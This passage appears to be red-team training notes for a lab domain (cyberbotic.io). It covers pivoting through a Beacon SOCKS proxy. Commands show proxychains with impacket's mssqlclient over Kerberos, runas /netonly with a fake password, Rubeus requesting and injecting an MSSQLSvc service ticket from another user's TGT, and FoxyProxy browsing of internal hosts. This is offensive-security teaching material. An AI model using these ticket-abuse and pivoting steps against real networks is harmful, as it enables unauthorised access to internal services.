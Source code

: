     ubuntu@DESKTOP-3BSK7NO ~> proxychains mssqlclient.py -dc-ip 10.10.122.10 -no-pass -k dev.cyberbotic.io/bfarmer@sql-2.dev.cyberbotic.io
    ProxyChains-3.1 (http://proxychains.sf.net)
    Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
  
    SQL> select @@servername;

This may require adding a static host entry to /etc/hosts and changing the proxy_dns setting in /etc/proxychains.conf to remote_dns.
Kerberos tickets can also be leveraged from the Windows attacker machine.  The first step is to add *.cyberbotic.io your Proxifier proxification rule(s).  This is because Kerberos uses hostnames rather than IP addresses and Proxifier won't proxy Kerberos traffic unless the domains are explicitly set in the rules.


Next, launch an instance of cmd.exe or powershell.exe using runas /netonly with a valid domain username, but a fake password.

    PS C:\Users\Attacker> runas /netonly /user:dev.cyberbotic.io\bfarmer powershell.exe
    Enter the password for dev.cyberbotic.io\bfarmer: FakePass
    Attempting to start powershell.exe as user "dev.cyberbotic.io\bfarmer" ...
    
The spawned process will have no Kerberos tickets in its cache.
    
    PS C:\Windows\system32> klist
    
    Current LogonId is 0:0x260072
    
    Cached Tickets: (0)

This method of pivoting prefers the presence of the correct service ticket(s) up front, rather than relying on a single TGT in the cache.  If we want to access the SQL-2 service through HeidiSQL then we need a service ticket for the MSSQLSvc service.  Let's use the TGT of bfarmer to do that (yes, requesting tickets through the proxy works as well).

    PS C:\Windows\system32> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgs /ticket:doIFzj[...snip...]MuSU8= /service:MSSQLSvc/sql-2.dev.cyberbotic.io:1433 /dc:dc-2.dev.cyberbotic.io /ptt
    PS C:\Windows\system32> klist

    Current LogonId is 0:0x260072
    
    Cached Tickets: (1)
    
    #0>     Client: bfarmer @ DEV.CYBERBOTIC.
        
Launch HeidiSQL from the same powershell window.

    PS C:\Windows\system32> C:\Tools\HeidiSQL\heidisql.exe
    
Set the target hostname to sql-2.dev.cyberbotic.io and connect.    
    
# Browsers

Firefox plus the FoxyProxy extension is ideal for pivoting a browser into the network, to view internal web applications.  Simply add a new entry in FoxyProxy that points to the Beacon SOCKS proxy.

Then navigate to the internal web server, 10.10.122.30.
You can also perform NTLM authentication following the steps outlined in this post. https://offensivedefence.co.uk/posts/ntlm-auth-firefox/
